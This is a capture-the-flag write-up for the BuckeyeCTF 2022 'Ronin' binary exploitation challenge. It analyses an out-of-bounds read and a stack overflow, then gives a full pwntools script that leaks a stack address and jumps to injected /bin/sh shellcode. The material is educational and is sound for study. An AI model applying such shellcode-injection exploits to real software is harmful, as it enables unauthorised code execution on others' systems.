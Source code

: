 * TOC
{:toc}

This is a writeup about the 2022 BuckeyeCTF challenge `Ronin`

# BuckeyeCTF2022 Ronin Challenge | Thomas Spencer

> Category `pwn` | Difficulty: `medium`

# Recon

## File

`
ronin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb4ccdef02a96139df6de419cbc283e0f26f1d85, for GNU/Linux 3.2.0, not stripped
`

## Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

NX, RWX, and no canary means we probably can do a shellcode injection!


# Functions

## Main

* Asks for user input

    * No buffer overflow

* Progress if we enter the string `"Chase after it."` as the first bit of our input

    * This means we can fill the rest of the buffer (size 80) with whatever we want!

## Chase

* Entered by typing `"Chase after it."` in `main`

* Has a local array of 4 strings


> "The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n";

> "Tall, thick trees surround you. You can't see a thing. Best to go back.\n";

> "You found the monkey! You continue your pursuit.\n";

> "You find a clearing with a cute lake, but nothing else. Turning around.\n";


* Function takes in a user input, and will call the `search` with the chosen string

* Only checks if the user choice is less than 4

    * This means we can input a negative value since our input is a signed integer

## Search

* Will just print out the text from the previous function

    * Unless the user input was 2 (find monkey string), then we go into the encounter function

    * **Notice: after the encounter function call is an `exit(0)` call!**

## Encounter

* Clears the input

* Prints out some text

* Uses `fgets(s, 49, stdin)` on a buffer of size `32`

    * This means we can overflow saved RBP and saved RIP only


# Vulnerabilites

* Buffer Overflow in `encounter` function

    * Will have to be last because of the `exit(0)` call afterwards

* Out of bounds read on the string array in `chase`

    * Only negative values allowed

    * Output will be simply printed out, and we can keep looping this indefinetly

# Plan of Attack

* NX enabled and RWX means we should make some shellcode. A simple `execl('/bin/bash', ...)` will do

* We'll have to leak the stack address (particularily of the array in main) to find our shellcode

    * Will have to be done with the out of bound read in `chase`

# Exploit Outline

* Enter main, put `"Chase after it."` + `shellcode` as our input

* Run through `search` with a valid string to seed the stack with proper data

* Run through `search` again with a negative offset to leak saved RBP

    * This saved RBP will be for the `chase` function!

* Use the leak to find the address of our shellcode

* Enter `encounter` and overflow RIP to jump to our shellcode

* Profit B)

# TODO:

* Need to figure out why the offset is saved RBP to shellcode offset is `0x50`

* Need to figure out why the offset to leak the saved RBP is `(0x10 + 0x8 + 0x8) // 0x8 = 4`

# Final Script

```python
#!/bin/env python3
from pwn import *

FILE = "./ronin"

DEBUG = False 

context.arch = "amd64"
context.encoding = "latin"

if (DEBUG):
	context.log_level = "debug"

warnings.simplefilter("ignore")

shellcode = asm("\n".join([
	"xor rax, rax",
	"push rax",
	"mov rax, 0x3b",
	"lea rdi, [rip+binsh]",
	"push rdi",
	"mov rsi, rsp",
	"xor rdx, rdx",
	"syscall",
	"binsh:",
	".string \"/bin/sh\"",
]))

LEAK_OFFSET = 0x10 + 0x8 + 0x8
SHELLCODE_OFFSET = 0x50 - len(b'Chase after it.')

p = process([FILE])

if (DEBUG):
	input("Attach Now!")

# Part 1, inject shellcode
p.recvuntil(b'You look up to see a monkey wielding your sword! What will you do?')
p.sendline(b'Chase after it.' + shellcode)

# Part 2, seed stack
p.recvuntil(b'far. Which way will you look? ')
p.sendline(b'0')

# Part 3, leak data
p.recvuntil(b'The treeline ends, and you see beautiful mountains in the distance. No monkey here.\n')
p.sendline(str(-LEAK_OFFSET // 8).encode())

RBPLEAK = p.recv(8)
RBPLEAK = int.from_bytes(RBPLEAK, "little")
print(hex(RBPLEAK))

# Part 4, Overflow
p.sendline(b'2')
p.recvuntil(b'This monkey can talk. "Tell me a joke." ')

payload  = b'A'*0x20
payload += b'B'*0x8
payload += p64(RBPLEAK - SHELLCODE_OFFSET)

p.sendline(payload)

p.interactive()
p.close()
```
